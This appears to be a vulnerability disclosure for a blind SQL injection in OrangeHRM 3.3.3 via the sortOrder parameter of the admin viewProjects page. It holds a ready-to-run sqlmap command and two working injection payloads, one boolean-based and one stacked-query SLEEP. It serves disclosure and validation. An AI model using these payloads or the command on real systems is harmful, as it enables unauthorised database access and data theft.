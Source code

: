 Vulnerability: Blind SQLi 

```
URL: https://$HOST/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC
```

Version: ‎Orangehrm OS 3.3.3

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: sortOrder


Command that was used to validate (Specify the correct DB used in your instance)
```
python3 sqlmap.py -r sqli --force-ssl --level 5 --risk 3 --random-agent --tamper between,charencode --dbms mysql --ignore-redirects --technique BS --flush-session --batch --current-user --string="Found"
```


sqlmap details
```
Parameter: #1* (URI)
	Type: boolean-based blind
	Title: MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause
	Payload: https://192.168.1.28/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC,(SELECT (CASE WHEN (5240=5240) THEN 1 ELSE 5240*(SELECT 5240 FROM INFORMATION_SCHEMA.PLUGINS) END))

	Type: stacked queries
	Title: MySQL >= 5.0.12 stacked queries (comment)
	Payload: https://192.168.1.28/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC;SELECT SLEEP(5)#
```




Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/OrangeHRM_3.3.3_SQLi_via_sortOrder.gif?raw=true)
